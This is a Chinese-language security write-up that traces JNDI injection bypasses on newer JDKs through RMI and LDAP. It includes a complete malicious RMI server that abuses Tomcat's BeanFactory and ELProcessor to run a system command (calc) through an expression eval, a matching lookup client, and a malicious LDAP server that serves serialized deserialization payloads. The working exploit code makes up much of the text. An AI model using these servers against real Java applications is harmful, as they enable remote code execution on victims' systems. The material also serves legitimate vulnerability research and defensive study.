# 高低版JDK下的JNDI注入绕过流程跟踪

## Rmi

服务端本地`ClassPath`中存在恶意`Factory`类可被利用来作为`Reference Factory`进行攻击利用。该恶意`Factory`类必须实现`javax.naming.spi.ObjectFactory`接口，实现该接口的`getObjectInstance()`方法，网上说是`org.apache.naming.factory.BeanFactory`类,该类的`getObjectInstance()`函数中会通过反射的方式实例化`Reference`所指向的任意`Bean Class`，并且会调用`setter`方法为所有的属性赋值。而该`Bean Class`的类名、属性、属性值，全都来自于`Reference`对象，均是攻击者可控的。

### 依赖

`org.apache.naming.factory.BeanFactory` 存在于Tomcat依赖包中，所以使用也是非常广泛

### 分析

恶意RMI服务端

```java
package lldapp;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

客户端

```Java
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://localhost:6666/Object";

        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```

具体跟踪就不写了，来个关键点



从`RMI`注册表中`lookup`查询到服务端中目标类的`Reference`后返回一个`ReferenceWrapper_Stub`类实例，该类实例就是客户端的存根、用于实现和服务端进行交互，最后调用`decodeObject()`函数来解析



跟入



继续跟进`getObjectFactoryFromReference`，从Reference中获取ObjectFactory·	



调用`Beanfactory`的`getObjectInstance`



判断obj参数是否是ResourceRef类实例



现在我们来看看对于表达式解析的过程
首先这里获取了我们最初设置的`x=eval`````按`=`分隔

这里是将`x`与`javax.el.ELProcessor`类的`eval()`方法绑定并存入hashmap

接着是多个do while语句来遍历获取ResourceRef类实例addr属性的元素，当获取到addrType为x的元素时退出当前所有循环

将刚才存入map的方法取出，并调用

## ldap

LDAP服务端除了支持JNDI Reference这种利用方式外，还支持直接返回一个序列化的对象。如果Java对象的javaSerializedData属性值不为空，则客户端的obj.decodeObject()方法就会对这个字段的内容进行反序列化。此时，如果服务端ClassPath中存在反序列化咯多功能利用Gadget如CommonsCollections库，那么就可以结合该Gadget实现反序列化漏洞攻击。



这里var1(slot_2)变量为null，传入getURLClassLoader()函数调用后返回的是AppClassLoader即应用类加载器；再往下就是调用deserializeObject()函数来反序列化javaSerializedData的对象字节码：



恶意LDAP服务器如下，主要是在javaSerializedData字段内填入刚刚生成的反序列化payload数据：

```Java
package lldapp;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */

        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            try {
                e.addAttribute("javaSerializedData", Base64.decode("" +
                    "反序列化数据"));
            } catch (ParseException exception) {
                exception.printStackTrace();
            }

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

